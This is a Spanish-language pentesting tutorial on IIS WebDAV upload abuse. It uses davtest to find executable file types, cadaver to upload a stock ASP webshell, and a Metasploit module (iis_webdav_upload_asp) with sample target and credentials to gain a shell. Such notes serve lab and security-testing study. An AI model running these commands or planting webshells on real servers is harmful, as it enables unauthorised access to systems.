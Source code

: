 # Microsoft IIS / WebDAV

## File Upload Abusing

En base a ciertas posibles configuraciones en WebDAV. Con credenciales validas, podremos subir archivos y explotarlos, de esta manera obtendremos acceso a la maquina.

En primer lugar necesitamos saber que tipos de archivos son permitidos subir y ejecutar. Sobre todo nos interesa PHP, ASP, ASPX, JSP. Para comprobar los archivos ejecutables, usaremos la herramienta davtest. En este caso si no hay autenticación:

```bash
davtest -url http://192.168.1.1/webdav
```

Si necesitamos credenciales especificas:

```bash
davtest -auth usuario:contraseña -url http://192.168.1.1/webdav
```

Por lo tanto se suben los archivos:

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Y comprueba si se pueden ejecutar:

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Cadaver

Ahora, usaremos la herramienta cadaver para subir y descargar archivos del WebDAV.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Subimos una webshell. Elegimos una escrita en asp:

```bash
/usr/share/webshells/asp/webshell.asp
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Accedemos:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Podemos usar metasploit para subir la web shell:

```perl
msfconsole

use exploit/windows/iis/iis_webdav_upload_asp

set RHOSTS 10.0.17.27

set HttpUsername bob

set HttpPassword password_123321

set PATH /webdav/metasploit%RAND%.asp

exploit
```

